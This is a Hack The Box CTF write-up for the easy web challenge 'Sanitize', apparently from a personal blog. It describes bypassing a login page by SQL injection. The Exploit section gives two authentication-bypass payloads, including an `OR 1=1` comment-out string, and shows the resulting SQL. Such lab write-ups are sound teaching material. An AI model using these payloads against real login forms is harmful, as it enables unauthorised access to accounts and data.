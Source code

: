 ```yaml
---
title: "HTB: Sanitize"
header.image: "/assets/images/avatar_black.png"
#last_modified_at: 2021-11-08T21:19:00+01:00
categories:
  - HTB
tags:
  - Easy-Challenge
  - Web
  - OWASP Top 10
  - SQLi
---
```


# Quick summary
Really easy challenge containing `SQLi` (SQL Injection) where the SQL Statement is visible on the webpage.

## Description
> Can you escape the query context and log in as admin at my super secure login page?

# Enumeration

Visiting the website:
![Startpage](/assets/htb/sanitize/startpage.png)

Checking the Source Code reveals that the title being `SQLi` meaning `SQL Injection`.<br>
![Startpage Title](/assets/htb/sanitize/startpage_header.png)

Trying to login using `admin`:`admin` reveals a meme and the full SQL statement at the bottom of the page:
![Think outside the box meme](/assets/htb/sanitize/think_outside_box.png)

# Exploit

Since the full SQL statement can be seen on the page it's easy to get the payload right.

## Payload 1
username: `admin' -- -`<br>
password: `a`

SQL Statement becomes:
```sql
SELECT * FROM users WHERE username = 'admin'-- - and password = a
```
The SQL statement controls that the username is `admin` and the password part is commented out, meaning all that's needed is a correct username.

## Payload 2
If the username is unknown, the following payload can be used instead:

username: `eplots' OR 1=1;-- -`<br>
password: `a`

SQL Statement becomes:
```sql
SELECT * FROM users WHERE username = 'eplots' OR 1=1;-- - AND password = 'a'
```

# Pwned confirmation
![Pwned confirmation](/assets/htb/sanitize/sanitize_pwned.png)